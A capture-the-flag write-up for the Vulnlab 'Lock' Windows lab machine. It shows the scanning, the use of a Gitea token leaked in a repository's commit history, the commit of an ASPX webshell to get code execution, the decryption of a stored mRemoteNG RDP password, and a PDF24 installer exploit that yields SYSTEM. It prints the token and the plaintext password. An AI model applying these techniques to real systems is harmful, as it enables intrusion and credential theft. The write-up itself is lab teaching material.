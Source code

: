 ```yaml
---
title: Lock Vulnhab (English)
image: /assets/img/Anexos/Máquina%20Lock.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnhab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Lock
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Data](https://wiki.vulnlab.com/guidance/easy/lock)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Lock.pdf)




## Reconnaissance


```shell
 sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.121.141 -oN scan1.txt
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-24 21:49 CEST
Nmap scan report for 10.10.121.141
Host is up (0.051s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Lock - Index
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Lock
| Not valid before: 2025-07-23T19:45:35
|_Not valid after:  2026-01-22T19:45:35
| rdp-ntlm-info: 
|   Target_Name: LOCK
|   NetBIOS_Domain_Name: LOCK
|   NetBIOS_Computer_Name: LOCK
|   DNS_Domain_Name: Lock
|   DNS_Computer_Name: Lock
|   Product_Version: 10.0.20348
|_  System_Time: 2025-07-24T19:50:12+00:00
|_ssl-date: 2025-07-24T19:50:53+00:00; 0s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-24T19:50:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.39 seconds
```
after the initial scan using `nmap`, we got that ports. 


> [!Info] 
> I should have done the scan again since it didn't report the port 3000 which is supposed to appear according to https://wiki.vulnlab.com/guidance/easy/lock xd. 

There's nothing interesting in the website, we can only notice that it seems to be a production software, that's why **gitea** may be important here. 


![](/assets/img/Anexos/Máquina%20Lock-10.png)

In gitea we can see one users who has a script in python which check the token and print the repos that the user has. So here we can check the commit history and it appears that someone forgot to delete their token:

![](/assets/img/Anexos/Máquina%20Lock-11.png)



What we can do now is use the actual script in order to get possible hidden repos with that token and we can see there's a hidden/private repo called website which is probably the website open on the port 80

```shell
❯ export GITEA_ACCESS_TOKEN=43ce39bb0bd6bc489284f2905f033ca467a6362f

❯ python test.py http://10.10.113.16:3000
Repositories:
- ellen.freeman/dev-scripts
- ellen.freeman/website
```

Knowing this we can now clone that repo:
```shell
 git clone http://ellen.freeman:43ce39bb0bd6bc489284f2905f033ca467a6362f@10.10.98.131:3000/ellen.freeman/website
```

## Explotation

Now I copy a apsx shell in the website repository
```shell
/usr/share/webshells/aspx/aspxshell.aspx
```

Then I commit and push the changes to the repo
```shell
git add .
git commit -m "pwn"
git push -u origin 
```

Finally, if we go to the page and we request for _/aspxshell.aspx_ we get the shell we previously upload. 
![](/assets/img/Anexos/Máquina%20Lock-12.png)
Now we can simply get a shell to our attack machine using https://www.revshells.com/ as the easiest way I use to use. 
## Privilege escaltion
Once in, in the Documents directory, we can see a config file for the mremoteng software installed which manage, among others, RDP connections, in this case, for the user _Gale.Dekarios_ in the target machine, so as it contains a protected variable, which is probably the key used to encrypt the pass, we search for a script in github or somewhere else in order to decrypt the password. 

```powershell
PS C:\users\ellen.freeman\Documents> type *
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="sDkrKn0JrG4oAL4GW8BctmMNAJfcdu/ahPSQn3W5DPC3vPRiNwfo7OH11trVPbhwpy+1FnqfcPQZ3olLRy+DhDFp" ConfVersion="2.6">
    <Node Name="RDP/Gale" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="a179606a-a854-48a6-9baa-491d8eb3bddc" Username="Gale.Dekarios" Domain="" Password="TYkZkvR2YmVlm2T2jBYTEhPU2VafgW1d9NSdDX+hUYwBePQ/2qKx+57IeOROXhJxA7CczQzr1nRm89JulQDWPw==" Hostname="Lock" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>
```

In this case I used this one https://github.com/gquere/mRemoteNG_password_decrypt 


```shell
❯ python3 mremoteng_decrypt.py ../content/config.xml
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

We got it! 

```shell
 xfreerdp /v:10.10.113.16 /u:gale.dekarios /p:ty8wnW9qCKDosXo6 /dynamic-resolution
```



Once in, we can realise that this machine uses thre PDF24 software, we can check the versión openning it in the settings field: 

![](/assets/img/Anexos/Máquina%20Lock-1.png)

I searched for the versión and it's vulnerable for privilage escalation, I use this poc => https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/

So basically I share `SetOpLock.exe` from https://github.com/googleprojectzero/symboliclink-testing-tools from my attack machine to the target machine

![](/assets/img/Anexos/Máquina%20Lock-2.png)

The vulnerability consist in executing the pdf24 msi installer which will open a invisible cmd as **SYSTEM** when it tries to write a log file. As we now the archive log it will write, we can use `SetOpLock.exe` in order to stop the invisible cmd executed by SYSTEM and get a shell as SYSTEM:

![](/assets/img/Anexos/Máquina%20Lock-3.png)

Once we get the invisible cmd locked thank to `SetOpLock.exe`, we go to propierties in order to get a help link and open the browser we want automatically as SYTEM 

![](/assets/img/Anexos/Máquina%20Lock-4.png)

![](/assets/img/Anexos/Máquina%20Lock-5.png)

Here `ctrl+o` to open the file explorer
![](/assets/img/Anexos/Máquina%20Lock-6.png)

We confirm that we have the privilages we wanted, 

![](/assets/img/Anexos/Máquina%20Lock-7.png)
then cmd here and we got the shell as SYSTEM!

![](/assets/img/Anexos/Máquina%20Lock-8.png)

![](/assets/img/Anexos/Máquina%20Lock-9.png)
